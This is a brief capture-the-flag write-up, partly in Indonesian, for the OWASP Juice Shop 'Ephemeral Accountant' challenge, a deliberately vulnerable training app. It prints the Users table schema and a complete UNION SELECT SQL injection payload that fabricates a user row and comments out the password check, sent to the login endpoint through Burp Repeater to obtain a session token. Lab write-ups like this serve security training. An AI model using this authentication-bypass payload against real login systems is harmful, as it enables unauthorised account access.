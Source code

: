 # Ephemeral Accountant - OWASP Juice Shop
Website: [OWASP Juice Shop - Injection](https://demo.owasp-juice.shop/#/score-board?categories=Injection)

## Soal <br>
Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

## Step-by-step 
1. Di challenge Database Schema kita dapat mengetahui seluruh isi database nya. Disitu kita dapat mencari  query untuk create user. ![alt text](image-24.png)
```sql
{
      "id": "CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHAR(255) DEFAULT '', `email` VARCHAR(255) UNIQUE, `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` VARCHAR(255) DEFAULT '', `lastLoginIp` VARCHAR(255) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg', `totpSecret` VARCHAR(255) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `deletedAt` DATETIME)",
      "name": 2,
      "description": 3,
      "price": 4,
      "deluxePrice": 5,
      "image": 6,
      "createdAt": 7,
      "updatedAt": 8,
      "deletedAt": 9
    }
```
2. Cari endpoint user login dan buat query untuk login akun yang diminta 
```sql 
' UNION SELECT 45 as id, 'acnt' as username, 'acc0unt4nt@juice-sh.op' as email, '1234' as password, 'customer' as role, '' as deluxeToken, 'localhost' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '2024-08-30 14:32:12.456' as createdAt, '2024-08-30 14:32:12.456' as updatedAt, null as deletedAt--' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL;
```

3. Setelah *Send to Repeater* ubah emailnya menjadi payload yang telah dibuat dan jalankan. ![alt text](image-32.png)
Muncul token di sebelah kanan yang menandakan bahwa authorization berhasil.

